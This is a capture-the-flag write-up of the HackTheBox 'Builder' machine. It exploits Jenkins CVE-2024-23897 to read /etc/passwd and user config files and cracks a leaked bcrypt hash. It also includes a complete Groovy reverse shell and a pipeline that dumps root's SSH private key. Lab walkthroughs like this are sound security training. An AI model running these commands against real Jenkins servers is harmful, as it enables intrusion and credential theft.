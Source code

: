 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-27-builder-hackthebox
tags:
- hackthebox
- linux
- jenkins
- CVE
title: Builder @ HackTheBox
---
```

Builder is a medium-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. It involves the disclosure of a version number which reveals a CVE that allows the user to reveal internal files. After which you can reveal the hash of a user through one of the config files, cracking this allows you to log into the Jenkins portal. Creating a basic groovy reverse shell gains initial access. Root access is gained through the use of creating a task which reveals the root SSH key.



## User & Root Flag
This post is a walkthrough for Builder, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.230.220`) shows the following results:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Opening the site on port 8080, at the bottom right of the screen reveals a version number '2.441', [hackthebox.eu CVE-2024-23897](https://www.hackthebox.com/blog/cve-2024-23897) discusses what you can do with this, half way through the article, they provide a command to run.

## User
```
java -jar jenkins-cli.jar -s http://10.129.230.220:8080 connect-node "@/etc/passwd"
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
"jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
<SNIP>
```

With a successful exploit, we can now print out the users list from jenkins_home directory.
```
java -jar jenkins-cli.jar -s http://10.129.230.220:8080 connect-node "@/var/jenkins_home/users/users.xml"
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.
```

This reveals `Jennifer's` directory: `jennifer_12108429903186576833`.
```
java -jar jenkins-cli.jar -s http://10.129.230.220:8080 connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
<SNIP>
 <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>: No such agent "    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>" exists.
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
```

With the hash obtained, we can use hashcat to crack it.
```
hashcat -m 3200 -a 0 hash rockyou.txt
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:<REDACTED>
```

Log in as Jennifer through the portal and navigate to the `/script/` directory.
A reverse shell can be obtained through the Groovy language.
```
nc -lvnp 1234

String host="your_ip";int port=1234;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Root
To gain obtain the root flag, we first need to create a new task which will cat out the contents of the root's SSH key.
```
pipeline {
    agent any
    stages{ 
        stage ('Deploy'){
            steps{
                sshagent(credentials: ['1']) {
                    sh 'ssh -o StrictHostKeyChecking=no root@10.129.230.220 "cat /root/.ssh/id_rsa"'
                }
            }
        }
    }
}
```
Viewing the output, copy the id_rsa key over to your local machine.

```
chmod 600 id_rsa
ssh -i id_rsa root@root@10.129.230.220
root@builder:~# cd /root
root@builder:~# ls
root.txt
root@builder:~# cat root.txt
<REDACTED>
root@builder:~# 
```


